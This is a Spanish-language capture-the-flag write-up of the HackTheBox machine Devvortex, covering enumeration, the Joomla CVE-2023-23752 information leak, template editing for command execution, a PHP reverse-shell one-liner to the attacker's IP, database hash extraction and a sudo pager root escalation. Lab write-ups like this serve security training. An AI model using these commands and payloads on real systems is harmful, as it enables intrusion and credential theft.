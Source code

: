 ```yaml
---
layout: post
title: Devvortex
date: 2023-12-04 13:09 +0100
img_path: /assets/img/
categories: [HackTheBox,Easy] 
tags: [Joomla,Virtual Hosting,RCE]
permalink: /devvortex/
---
```


![Devvortex](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Devvortex.png)

Devvortex es una máquina Linux con la que practicaremos enumeración web y virtual hosting. Al utilizar Joomla, practicaremos cómo podemos obtener ejecución remota de comandos una vez que accedemos al panel de administración. También se hace uso de la vulnerabilidad CVE-2023-23752 para obtener información sensible, como usuarios y contraseñas.

## 🔍 **ENUMERACIÓN**

Realizamos un nmap para conocer todos los puertos abiertos de la máquina.

```
nmap -p- -open -sS --min-rate 5000 -n -vvv -Pn 10.129.54.199 -oG allPorts
```

Una vez finalizado el escaneo, observamos que los únicos puertos abiertos son el 22 y el 80.

![Pasted image 20231202182800.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231202182800.png)

A continuación, realizamos un escaneo más exhaustivo de dichos puertos para conocer la versión y servicio que utilizan. Observamos que el puerto 80 redirige a la dirección `[http://devvortex.htb](http://devvortex.htb)`, así que lo añadimos al archivo `/etc/hosts`

![Pasted image 20231202182158.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231202182158.png)

```
nmap -p22,80 -sCV 10.129.54.199 -oN targeted
```

![Pasted image 20231202182309.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231202182309.png)

### Puerto 80

![Pasted image 20231203131930.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203131930.png)

Comenzamos analizando las tecnologías que utiliza con la herramienta `whatweb`.

![Pasted image 20231203133456.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203133456.png)

Observamos que utiliza `nginx 1.18.0`, pero no encontramos ninguna vulnerabilidad. Realizamos un escaneo de directorios con la herramienta `gobuster`.

```
gobuster dir -u http://devvortex.htb/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -o devvortex.htb.dirs -f
```

![Pasted image 20231203133401.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203133401.png)

No encontramos nada interesante, así que probamos a ver si utiliza *virtual hosting.* Para ello, utilizamos `gobuster`.

```
gobuster vhost --append-domain -u http://devvortex.htb/ -t 50 -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -o devvortex.vhosts
```

![Pasted image 20231203133909.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203133909.png)

Encontramos un subdominio: `dev.devvortex.htb`. Para poder acceder a él, lo añadimos al archivo `/etc/hosts`.

![Pasted image 20231203175102.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203175102.png)

### dev.devvortex.htb

![Pasted image 20231203134046.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203134046.png)

Realizamos un escaneo de directorios del nuevo subdominio con `gobuster`.

```
gobuster dir -u http://dev.devvortex.htb/ -f -w /usr/share/SecLists/Discovery/Web-Content/common.txt -t 200 -o dev.devvortex.htb.dirs
```

![Pasted image 20231203135832.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203135832.png)

Encontramos un directorio interesante: `/administrator/`. Si accedemos a él, podemos observar que se trata de un panel de autenticación de `joomla`. 

![Pasted image 20231203135901.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203135901.png)

Podemos utilizar la herramienta `joomscan` para poder saber más.

```
joomscan -u http://dev.devvortex.htb
```

![Pasted image 20231203143507.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203143507.png)

Gracias a `joomscan`, obtenemos que la versión utilizada de `joomla` es la `4.2.6`. Buscando por internet, encontramos que puede ser vulnerable a ***CVE-2023-23752.***

## 💥 **EXPLOTACIÓN**

[https://github.com/Ly0kha/Joomla-CVE-2023-23752-Exploit-Script](https://github.com/Ly0kha/Joomla-CVE-2023-23752-Exploit-Script)

Utilizando el siguiente exploit, podemos extraer información valiosa de la base de datos utilizada por `joomla`.

![Pasted image 20231203144317.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203144317.png)

Observamos que tenemos dos usuarios: **lewis** y **logan**. Además, tenemos la contraseña de lewis: `P4ntherg0t1n5r3c0n##`. Si probamos a utilizar las credenciales a través de SSH, no vamos a tener exito, pero podemos acceder a través del panel de autenticación de `joomla`.

![Pasted image 20231203144756.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203144756.png)

Una vez que tenemos acceso al panel de administración, podemos obtener un **RCE** para utilizar una reverse shell. Para ello nos dirigimos a la pestaña system, Administrator Templates, seleccionamos la template atum, y editamos el archivo `error.php`.

![Pasted image 20231203162659.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203162659.png)

Si accedemos desde el navegador, podemos ejecutar comandos.

```
http://dev.devvortex.htb/administrator/templates/atum/error.php?cmd=id
```

![Pasted image 20231203162950.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203162950.png)

Para conseguir enviarnos una reverse shell a través del **RCE**, utilizamos el siguiente **payload**.

```php
php -r '$sock=fsockopen("10.10.16.24",443);exec("sh <&3 >&3 2>&3");'
```

Nos ponemos en escucha con `netcat` para recibir la reverse shell.

![Pasted image 20231203163410.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203163410.png)

Una vez dentro, el único usuario disponible es **logan**, pero no tenemos las credenciales para poder conectarnos. Como anteriormente obtuvimos las credenciales de la base de datos de `joomla`, podemos utilizarlas para obtener las credenciales de **logan**.

```
mysql -u lewis -pP4ntherg0t1n5r3c0n##
use joomla;
select username,password from sd4fg_users;
```

![Pasted image 20231203165325.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203165325.png)

Guardamos la clave encriptada de logan para poder crackearla con john.

![Pasted image 20231203165304.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203165304.png)

Una vez obtenida la contraseña de logan, podemos conectarnos a través de ssh.

![Pasted image 20231203165429.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203165429.png)

Una vez dentro, ya podemos ver la flag de `user.txt`. que está situada en `/home/logan/user.txt`.

## 🔐 **ESCALADA DE PRIVILEGIOS**

Si realizamos un `sudo -l` para ver los commandos que podemos ejecutar como `root` nos encontramos lo siguiente.

![Pasted image 20231203172027.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203172027.png)

Si lo ejecutamos para ver algún crasheo que se haya producido, podemos elevar privilegios, ya que para mostrar el reporte utiliza una funcionalidad de pager como `less`.

![Pasted image 20231203172109.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203172109.png)

Seleccionamos la opción V para ver el reporte y cuando nos muestre el reporte ejecutamos `!bash` y obtendremos una shell como `root`.

![Pasted image 20231203172221.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203172221.png)

Una vez que tenemos acceso como `root`, podemos obtener la flag en `/root/root.txt`.